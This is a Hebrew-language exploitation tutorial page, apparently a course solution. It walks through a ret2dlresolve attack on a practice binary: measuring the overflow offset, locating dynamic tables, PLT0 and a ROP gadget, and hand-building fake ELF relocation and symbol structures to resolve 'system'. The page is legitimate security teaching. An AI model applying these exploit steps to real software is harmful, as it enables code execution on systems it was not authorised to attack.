

repository: AmitPinchasi/amittech · page: מחקר-חולשות/6 - ROP מתקדם/6.4 - ret2dlresolve/6.4 - ret2dlresolve - פתרון/index.html · generator: mkdocs

## פתרון - ret2dlresolve על בינארי ללא leak

נעבור על התרגיל שלב אחרי שלב: קודם נאסוף את כל הרכיבים מהבינארי, אחר כך נבנה את הchain עם `Ret2dlresolvePayload`, ולבסוף נראה גם בנייה ידנית מלאה של המבנים כדי להבין מה קורה מתחת למכסה.

### פתרון תרגיל 1 - מדידת ה-offset

מזינים תבנית מחזורית ומריצים תחת gdb:

```bash
$ gdb ./vuln
pwndbg> cyclic 200
aaaabaaacaaadaaaeaaaf...
pwndbg> run
# paste the pattern as input
```

בזמן הקריסה pwndbg מזהה את התבנית ומדפיס את ה-offset. או ידנית:

```text
pwndbg> cyclic -l 0x6161616161616166   # the value found in RSP at crash time
72
```

אז ה-offset הוא **72 בתים**: 64 בתים של `buf` ועוד 8 בתים של `saved rbp`, ואז מגיעה return address. בדיוק כמו שציפינו.

### פתרון תרגיל 2 - איתור הרכיבים בבינארי

בסיסי הטבלאות הדינמיות:

```bash
$ readelf -d ./vuln | grep -E 'JMPREL|SYMTAB|STRTAB'
 0x0000000000000017 (JMPREL)   0x400490
 0x0000000000000006 (SYMTAB)   0x400340
 0x0000000000000005 (STRTAB)   0x4003a0
```

הכתובת של `PLT0`:

```bash
$ objdump -d -j .plt ./vuln | head -6
0000000000401020 <.plt>:
  401020: ff 35 e2 2f 00 00   push  QWORD PTR [rip+0x2fe2]   # GOT[1]
  401026: ff 25 e4 2f 00 00   jmp   QWORD PTR [rip+0x2fe4]   # GOT[2]
```

אז `PLT0 = 0x401020`. הגאדג'ט להכנת הארגומנט:

```bash
$ ROPgadget --binary ./vuln | grep 'pop rdi ; ret'
0x0000000000401263 : pop rdi ; ret
```

ואזור כתיב ל-`.bss`:

```bash
$ readelf -S ./vuln | grep -E '\.bss|\.data'
  [24] .data   PROGBITS  0000000000404000 ...
  [25] .bss    NOBITS    0000000000404010 ...
```

יש לנו הכל. הערכים המדויקים ישתנו מקומפילציה לקומפילציה, אבל pwntools תשלוף אותם לבד מה-ELF, אז לא נצטרך לקודד אותם קשיח.

### פתרון תרגיל 3 - בניית המבנים המזויפים

נתחיל מהבנת המבנים ידנית, כי חשוב לראות את הבתים לפני שנותנים לספרייה לעשות את זה. שלושה דברים באזור הכתיב:

```text
data+0    : "system\0"                       <-- the string the resolver looks up in libc
data+8    : Elf64_Sym  { st_name, 0x12, ... } <-- aligned to 24 against SYMTAB
data+..   : Elf64_Rela { r_offset, r_info, 0 } <-- aligned to 24 against JMPREL
```

המבנה `Elf64_Rela` (24 בתים): `r_offset` הוא כתובת כתיב כלשהי (לשם הפותר יכתוב את התוצאה), `r_info` מקודד את אינדקס הסמל ואת הסוג, ו-`r_addend` אפס:

```python
r_info    = (sym_index << 32) | 7        # 7 = R_X86_64_JUMP_SLOT
fake_rela = p64(r_offset) + p64(r_info) + p64(0)
```

המבנה `Elf64_Sym` (24 בתים): רק `st_name` (אופסט למחרוזת מול `STRTAB`) ו-`st_info=0x12` (כלומר `STB_GLOBAL | STT_FUNC`) חשובים:

```python
fake_sym = p32(st_name) + p8(0x12) + p8(0) + p16(0) + p64(0) + p64(0)
```

לגבי החלוקה ב-24: `reloc_arg = (rela_addr - JMPREL) / 24` ו-`sym_index = (sym_addr - SYMTAB) / 24`, ושתי החלוקות חייבות לצאת שלמות כי הפותר מכפיל אינדקס בגודל המבנה. אם אחת מהן לא מתחלקת, מזיזים את המבנה בכמה בתים של padding עד שהיא כן. וזה בדיוק אחד המקומות שבהם pwntools חוסכת לנו כאב ראש - היא בוחרת פריסה מיושרת, וגם דואגת ש-`sym_index` יהיה כזה שבדיקת הגרסאות של glibc תיפול על אפס תקין.
